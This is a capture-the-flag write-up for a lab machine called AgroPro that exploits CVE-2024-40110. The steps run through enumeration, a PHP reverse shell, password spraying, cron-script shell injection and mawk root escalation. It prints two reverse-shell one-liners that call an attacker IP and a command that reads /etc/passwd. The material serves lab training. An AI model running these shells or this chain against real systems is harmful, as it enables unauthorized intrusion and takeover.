


# Official Write-Up 5M1TH - AgroPro by 5M1TH.

## Let’s enjoy the green fields and relax, enjoying nature. Exploit CVE-2024–40110

[1](./img/01.png)

#

# Let’s go!!!

## Task 1 - Enumeration and Initial Access


#

# RECONAISSANCE AND ENUMERATION

## Nmap simple scan detect 3 opened ports:


## Nmap services and versions scan:


## Nmap vulnerabilities scan:


## Web recon and enumeration by softwares and tecnology:


## Access the URL indicate http://10.10.170.103/


## Identified the support user e-mail as support@agropro.local


## Bruteforce files and direcitories, identified the “/ranch” directory:


## New web enumeration on directory discovered indicate the Titlle “RedCock Farm”:


## Access the new URL indicate http://10.10.170.103/ranch/


## New files and directories bruteforce


# Theat modeling

## Search for exploits:



https://www.exploit-db.com/exploits/52053

## Exploit download:


## Necessary adjustment:


## After adjustment:


## Executing the exploit - fail:


## Search for other exploit:


https://github.com/thiagosmith/CVE-2024-40110

## Raw code

https://raw.githubusercontent.com/thiagosmith/CVE-2024-40110/refs/heads/main/exploit.py


## Download new exploit:


## Necessary new adjustment:


## After new adjustment:


## Executing the exploit - bingo!!!


## Creating a payload of reverse Shell to the target:

https://www.revshells.com/


PHP Choise because the application is PHP!!!

```
php -r '$sock=fsockopen("10.17.51.216",9001);exec("sh <&3 >&3 2>&3");'
```

## Listener:


## Executing the revserse shell command on pseudo-shell by exploit:


## Receiver the reverse shell:


## Shell improvement:


## Internal enumeration:


Discovered the “includes/dbconnection.php”

## Read file:


```
db: 
user: 
pass: 
```

## Reading the /etc/passwd file finding users in the host:


```
cat /etc/passwd | cut -d ":" -f 1
```
## Users wordlist creation on my attack machine:


## Password spray with hydra on ssh service:


```
ssh 
host: 10.10.170.103   
login: 
password: 
```

## Initial acess from ssh user and pass. The first flag!!!


# Task 2 - Lateral movement and horizontal privilege escalation.

## Locate linpeas.sh


https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS


## Download linpeas.sh


## Listener with web server in python:


## Request from target:


## Assigning execution rights to the binary file and execution:


# Important reports

## Kernel exploits less - probable:


## Crontab:


## Writable files:


## Backup Folders:


## Analyzing reported script:




## Searching for a new reverse shell:


Bash to differentiate a little

```
sh -i >& /dev/tcp/10.17.51.216/9001 0>&1
```

## Inserting my reverse shell into the script:


## Opening the listner and wait the cron job:


## Receive the reverse shell and taking the second user flag:


Houston, have a Shell!!

# Task 3- Vertical Privilege Escalation

## Improving the shell:


## Checking permissions:


## Searching about “mawk” on GTFOBINS:

https://gtfobins.github.io/gtfobins/mawk


## Escalating privilege vertically and getting the final root flag:


# Final words:
The intention behind creating this room arose when, at a certain moment, I was researching exploits for vulnerable applications on the exploit-db.com website.

I found the exploit for the application I was testing in a fully controlled environment. However, when executing it, I received the error message described in this Write-Up.

Faced with adversity, I managed to fix the exploit and enhance it to meet my specific needs at that moment.

I built the machine and the room with the aim of helping enthusiasts understand that we need to adapt to applications and that not every exploit we find will work successfully on the first attempt.

Persistence is the key word in this challenge, proposed for those who decide to accept it.

“The true achievement is not just in finding a functional exploit, but in refining challenges, adapting strategies, and never giving up in the face of adversity. Persistence turns obstacles into learning and evolution!”

# About the author:

## https://www.linkedin.com/in/smith-braz-938825209/


## https://tryhackme.com/p/5m1th


Send me feedback, please…


